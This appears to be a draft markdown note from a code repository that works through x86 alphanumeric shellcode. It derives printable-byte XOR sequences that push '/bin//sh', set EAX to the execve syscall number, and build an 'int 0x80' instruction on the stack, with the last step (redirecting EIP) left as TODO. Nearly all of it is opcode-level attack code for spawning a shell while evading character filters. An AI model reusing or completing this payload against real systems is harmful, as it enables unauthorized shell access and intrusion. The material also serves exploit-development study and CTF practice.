 # Draft

## Reference
- http://skypher.com/wiki/index.php?title=X86_alphanumeric_opcodes
- turn on markdown syntax in VIM: ```au BufRead,BufNewFile *.md set filetype=markdown```

## Procedures
### [P1] ECX: set to 0
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * 48
P:              PUSH EAX
Y:              POP ECX
```

### [P2] EDX: set to 0
```
P:              PUSH EAX
Z:              POP EDX
```

### [P3] PUSH 0 ('\0' for string "/bin/sh")
```
R:              PUSH EDX
```

### [P4] PUSH 0x68732f2f

```
INPUT:
0   0   0   0   0   0   3   0

XOR-1:
X       C       C       J
5   8   4   3   4   3   4   A

XOR-2:
0       0       l       U
3   0   3   0   6   c   5   5

TARGET:
6   8   7   3   2   f   2   f
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 J C C X:      XOR EAX, $0x5843434A
5 U l 0 0:      XOR EAX, $0x30306c55
P:              PUSH EAX
```

### [P5] PUSH 0x6e69622f

```
INPUT:
0   0   0   0   0   0   3   0

XOR-1:
Y       Y       R       J

XOR-2:
7       0       0       U

TARGET:
6   e   6   9   6   2   2   f
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 J R Y Y:      XOR EAX, $0x5959524A
5 U 0 0 7:      XOR EAX, $0x37303055
P:              PUSH EAX
T:              PUSH ESP
```

### [P6] PUSH operation "INT 0x80"

```
INPUT:
f   f   f   f   f   f   f   f

XOR-1:
0       0       G       C
3   0   3   0   4   7   4   3

XOR-2:
0       0       8       q
3   0   3   0   3   8   7   1

TARGET:
.   .   .   .   8   0   c   d
```


```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * 49
5 C G 0 0:      XOR EAX, $0x30304743
5 q 8 0 0:      XOR EAX, $0x30303871
P:              PUSH EAX
```

### [P7] PUSH opration "POP EBX"

```
INPUT:
0   0   0   0   0   0   3   0

XOR:
4   F   4   F   4   F   6   B

TARGET:
4   F   4   F   4   F   5   B

- 4F: DEC EDI (NO-OP)
- 5B: POP EBX
```

```
j 0:            PUSH 0x30
X:              POP EAX
5 k O O O:      XOR EAX, $0x4F4F4F6B
P:              PUSH EAX
```

### t
```
P:              PUSH EAX
```

### [P8] EAX: set to 11 (0x0b)
```
j 0:            PUSH 0x30
X:              POP EAX
H:              DEC EAX     * (48-11) = 37
```

### [P9] Point ESP to "POP EBX"
```
D:              INC ESP     * 12
```

### [P0] Setup EIP to our code
*TODO*
```
?:              MOV EIP, (ESP-8)
```
